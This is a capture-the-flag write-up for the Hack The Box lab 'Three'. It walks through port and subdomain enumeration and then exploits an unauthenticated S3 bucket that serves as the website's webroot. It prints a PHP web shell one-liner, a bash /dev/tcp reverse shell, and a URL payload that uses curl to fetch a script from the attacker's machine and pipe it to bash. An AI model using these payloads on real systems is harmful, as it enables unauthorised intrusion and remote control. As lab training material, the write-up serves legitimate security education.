# **Three Write-up!**

Prepared by: dotguy!

## **Introduction!**

Organizations of every type, size, and industry are using the cloud for a wide variety of use cases, such as data backup, storage, disaster recovery, email, virtual desktops, software development and testing, etc. Thus, it is crucial to have a secure configuration for a company's cloud infrastructure in order to protect against any attacks. Three is a Linux box that includes a website, which utilizes an AWS S3 bucket as its cloud-storage device. We can exploit this poorly configured S3 bucket and upload a reverse shell on it. We can then visit the corresponding URL to execute the reverse file and ultimately retrieve the flag.

## **Enumeration!**

To start with, we will check for open ports using a Nmap scan:

```sh
sudo nmap -sV 10.129.227.248
```


The scan shows that two ports are open -  port 80 (HTTP) and  port 22 (SSH). Let's enumerate

port 80 using our web browser



We can see a static webpage that features a concert ticket booking section but it isn't functional. Let's further try to identify the technology stack of the website using a browser extension known as [Wappalyzer. It](https://www.wappalyzer.com/) can be installed on the supported browsers from here.

Once the Wappalyzer extension is installed, we can visit the website and then click on the extension icon to reveal the results.



Wappalyzer identifies PHP as the programming language being used by the website.

Upon scrolling down the webpage, we come across the "Contact" section, which has email information. The email given here has the domain  thetoppers.htb .


Let's add an entry for  thetoppers.htb in the  /etc/hosts file with the corresponding IP address to be able to access this domain in our browser.

The /etc/hosts file is used to resolve a hostname into an IP address. By default, the

/etc/hosts file is queried before the DNS server for hostname resolution thus we will need to add an entry in the  /etc/hosts file for this domain to enable the browser to resolve the address for thetoppers.htb .

echo "10.129.227.248    thetoppers.htb" | sudo tee -a /etc/hosts

**Sub-domain enumeration**

**What is a subdomain?**

A subdomain name is a piece of additional information added to the beginning of a website’s domain name. It allows websites to separate and organize content for a specific function — such as a blog or an online store — from the rest of your website.

For example, if we visit [hackthebox.com we can](https://hackthebox.com/) access the main website. Or, we can visit [ctf.hackthebox.com to ](https://ctf.hackthebox.com/)access the section of the website that is used for CTFs. In this case,  ctf is the subdomain,  hackthebox is the primary domain and  com is the [top-level domain (TLD). ](https://www.cloudflare.com/en-in/learning/dns/top-level-domain/)Although the URL changes slightly, you’re still on HTB's website, under HTB's domain.

Often, different subdomains will have different IP addresses, so when our system goes to look up the subdomain, it gets the address of the server that handles that application. It is also possible to have one server handle multiple subdomains. This is accomplished via "host-based routing", or "virtual host routing", where the server uses the Host header in the HTTP request to determine which application is meant to handle the request.

As we have the domain  thetoppers.htb , let us enumerate for any other sub-domains that may be present on the same server. There are different enumeration tools available for this purpose like gobuster , wfuzz , feroxbuster etc. As of this writeup, we will be using  gobuster for sub- domain enumeration using the following command.

gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million- 5000.txt -u http://thetoppers.htb

We will be using the following flags for  gobuster .

vhost : Uses VHOST for brute-forcing

-w : Path to the wordlist

-u   : Specify the URL

gobuster will send out requests with a host header that looks like the following for each word in the wordlist:

Host: [word].thetoppers.htb

It will note the default response, and show any that return something different.


The gobuster result shows that there exists a sub-domain called  s3.thetoppers.htb . Let's also add an entry for this sub-domain in the  /etc/hosts file.

echo "10.129.227.248    s3.thetoppers.htb" | sudo tee -a /etc/hosts

After we have added an entry for the domain to our hosts file let's visit   s3.thetoppers.htb

using a browser.



The webpage only contains the following JSON.

{"status": "running"}

**What is an S3 bucket?**

A quick Google search containing the keywords "s3 subdomain status running" returns this result stating that  S3 is a cloud-based object storage service. It allows us to store things in containers called buckets. AWS S3 buckets have various use-cases including Backup and Storage, Media

Hosting, Software Delivery, Static Website etc. The files stored in the Amazon S3 bucket are called S3 objects.

We can interact with this S3 bucket with the aid of the  awscli utility. It can be installed on Linux using the command  apt install awscli .

First, we need to configure it using the following command.

aws configure

We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for  aws to work).



We can list all of the S3 buckets hosted by the server by using the  ls command.

aws --endpoint=http://s3.thetoppers.htb s3 ls



We can also use the  ls command to list objects and common prefixes under the specified bucket.

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb



We see the files  index.php , .htaccess and a directory called  images in the specified bucket. It seems like this is the webroot of the website running on  port 80 . So the Apache server is using this S3 bucket as storage.

awscli has got another feature that allows us to copy files to a remote bucket. We already know that the website is using PHP. Thus, we can try uploading a PHP shell file to the  S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will,

in turn, execute this file and we will achieve remote code execution.

We can use the following PHP one-liner which uses the  system() function which takes the URL parameter  cmd as an input and executes it as a system command.

<?php system($\_GET["cmd"]); ?>

Let's create a PHP file to upload.

echo '<?php system($\_GET["cmd"]); ?>' > shell.php

Then, we can upload this PHP shell to the  thetoppers.htb S3 bucket using the following command.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb



We can confirm that our shell is uploaded by navigating to [http://thetoppers.htb/shell.php. Let us ](http://thetoppers.htb/shell.php)try executing the OS command  id using the URL parameter  cmd .

http://thetoppers.htb/shell.php?cmd=id



The response from the server contains the output of the OS command  id , which verified that we have code execution on the box. Thus, let us now try to obtain a reverse shell.

Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on the specified listening port. We can obtain the  tun0 IP address of our local machine using the following command.

ifconfig



Let's get a reverse shell by creating a new file  shell.sh containing the following bash reverse shell payload which will connect back to our local machine on port  1337 .

#!/bin/bash

bash -i >& /dev/tcp/<YOUR\_IP\_ADDRESS>/1337 0>&1

We will start a  ncat listener on our local port  1337 using the following command.

nc -nvlp 1337



Let's start a web server on our local machine on  port 8000 and host this bash file. It is crucial to note here that this command for hosting the web server must be run from the directory which contains the reverse shell file. So, we must first traverse to the appropriate directory and then run the following command.

python3 -m http.server 8000



We can use the  curl utility to fetch the bash reverse shell file from our local host and then pipe it to bash in order to execute it. Thus, let us visit the following URL containing the payload in the browser.

http://thetoppers.htb/shell.php?cmd=curl%20<YOUR\_IP\_ADDRESS>:8000/shell.sh|bash We receive a reverse shell on the corresponding listening port.


` `The flag can be found at  /var/www/flag.txt .

cat /var/www/flag.txt

Congratulations, you have successfully completed Three.
